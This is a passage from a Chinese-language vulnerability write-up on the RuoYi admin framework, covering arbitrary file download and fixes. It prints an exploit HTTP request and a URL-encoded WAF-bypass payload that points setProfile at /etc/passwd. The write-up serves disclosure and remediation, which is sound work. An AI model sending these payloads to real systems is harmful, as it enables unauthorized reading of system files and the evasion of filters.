- 此步骤非漏洞必要环节，但常用于隐蔽攻击行为。  
  
#### 触发任意文件下载  
```
GET /common/download/resource?resource=2.txt HTTP/1.1
Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Host: 10.40.107.67
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Connection: close
```  
- 下载功能仅校验“配置文件中的路径”，未对动态修改后的路径进行二次白名单校验。  
  
## bypass  
  
对路径参数进行 URL 编码或 Unicode 编码，绕过 WAF 检测：  
```
invokeTarget=ruoYiConfig.setProfile('%2F%65%74%63%2F%70%61%73%73%77%64')
```  
## 修复  
1. **官方补丁**  
：  
  
1. 升级若依至 **4.7.6 以上版本**  
，官方已修复权限校验和路径白名单问题。  
  
1. **代码级修复**  
：  
  
1. **权限校验**  
：对 /monitor/job/add  
 等后台接口添加严格的角色权限控制。  
  
1. **方法黑名单**  
：禁止 invokeTarget  
 参数调用敏感类方法（如 ruoYiConfig.setProfile  
）。  
  
1.   
1. **路径二次校验**  
：在下载功能中强制校验文件路径是否在合法白名单内。  
  
1. **临时缓解**  
：  
  
1. 禁用后台任务调度功能，或限制 monitor  
 模块的访问权限。  
  
1. 部署 WAF 拦截包含 ruoYiConfig.setProfile  
 特征的请求。  
  
# 0x06 定时任务RCE  
  